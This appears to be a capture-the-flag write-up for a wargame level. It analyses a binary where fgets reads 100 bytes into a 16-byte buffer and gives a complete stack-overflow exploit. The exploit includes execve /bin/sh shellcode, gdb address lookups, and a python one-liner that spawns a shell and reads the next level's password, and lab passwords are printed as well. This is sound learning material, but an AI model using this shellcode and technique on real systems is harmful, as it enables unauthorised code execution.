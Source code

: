 # Level 01
*password : uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL*

## Analyze
```
scp -P 4242 level01@192.168.56.109:level01 binary/
```

- name = `dat_wil`\
- `verify_user_name()` check only the 7 first characters

Interesting part :
```
char pass_input[16];
...
fgets(pass_input, 100, stdin);
```

## Buffer overflow : fgets exploit
**exploit** : `fgets` read 100 characters and store them in a buffer of size 16.\
**objective** : overflow pass_input to execute a shellcode

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
- `pass_input` is too small for the shellcode, so let's use `use a_user_name`
```
(gdb) b verify_user_name
Breakpoint 1 at 0x8048469
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil

Breakpoint 1, 0x08048469 in verify_user_name ()
(gdb) x/x $eax
0x804a040 <a_user_name>:        0x5f746164
```
- address of `a_user_name + 7` : 0x0804a040 + 7 = 0x0804a047
- eip offset found : 80

```
$ python -c 'print "dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "x42" * 80 + "\x47\xa0\x04\x08"' > /tmp/level1 ; cat /tmp/level1 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```
